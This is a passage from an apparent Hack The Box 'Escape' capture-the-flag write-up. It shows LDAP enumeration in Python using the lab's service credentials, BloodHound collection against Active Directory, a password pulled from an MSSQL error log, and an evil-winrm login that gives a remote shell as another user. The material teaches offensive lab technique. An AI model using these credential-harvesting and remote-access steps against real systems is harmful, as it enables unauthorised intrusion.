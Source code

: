 ```python
    def default(self, query):
        self.conn.search(search_base='',
            search_filter = query)
        for entry in self.conn.response:
            print(entry['dn'], entry['attributes'])

l = ldapsearch('sequel.htb', 'sql_svc', 'REGGIE1234ronnie', 'escape')
l.cmdloop()
```
{% endcode %}

{% embed url="https://github.com/fox-it/BloodHound.py/blob/760e6ee11375343da443574b1c6b2bd1509a0b8e/bloodhound/ad/authentication.py#L74" %}
{% endtab %}

{% tab title="bloodhound-python" %}
We use `bloodhound.py` to collect AD information from the target.

{% code overflow="wrap" %}
```bash
$ bloodhound-python -u SQL_SVC -p REGGIE1234ronnie -d sequel.htb -v -ns <IP>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### User Ryan.Cooper

We found an MSSQL log file `C:\SQLServer\Logs\ERRORLOG.BAK`.

```powershell
*Evil-WinRM* PS C:\SQLServer\Logs> cat ERRORLOG.BAK
...
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
...
```

We see the user `Ryan.Cooper` type his password incorrectly and we can try to login to the target using this password now.

```bash
$ evil-winrm -i escape -u ryan.cooper -p NuclearMosquito3

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper
```
